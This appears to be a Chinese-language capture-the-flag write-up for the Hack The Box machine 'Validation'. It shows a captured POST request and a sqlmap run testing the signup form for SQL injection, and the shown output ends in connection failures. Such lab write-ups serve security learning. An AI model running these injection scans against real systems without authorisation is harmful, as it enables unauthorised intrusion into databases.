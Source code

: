 只有几个文件，查网页源代码无特别发现

index页面需要输入一个名字，点击确定以后会跳到另一个页面，显示我们刚才输入的名字，也就是说很可能是经过数据库的

所以会不会有sql注入？

## sql注入

用burp抓index.php页面的包，保存到data文件
```
┌──(root💀kali)-[~/htb/Validation]
└─# cat data     
POST /index.php HTTP/1.1
Host: 10.10.11.116
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10.10.11.116
Connection: close
Referer: http://10.10.11.116/
Upgrade-Insecure-Requests: 1

username=max&country=Brazil

```

sqlmap尝试跑一下：
```
──(root💀kali)-[~/htb/Validation]
└─# sqlmap -r data --batch  --level=5 --risk=3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:36:41 /2021-11-29/

[09:36:41] [INFO] parsing HTTP request from 'data'
[09:36:41] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.10.11.116:80/account.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[09:36:42] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[09:36:42] [WARNING] if the problem persists please check that the provided target URL is reachable. In case that it is, you can try to rerun with switch '--random-agent' and/or proxy switches ('--proxy', '--proxy-file'...)
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[09:36:44] [CRITICAL] unable to connect to the target URL
[09:36:44] [INFO] testing if the target URL content is stable
[09:36:45] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[09:36:48] [CRITICAL] unable to connect to the target URL
[09:36:48] [WARNING] POST parameter 'username' does not appear to be dynamic
[09:36:49] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[09:36:50] [CRITICAL] unable to connect to the target URL
```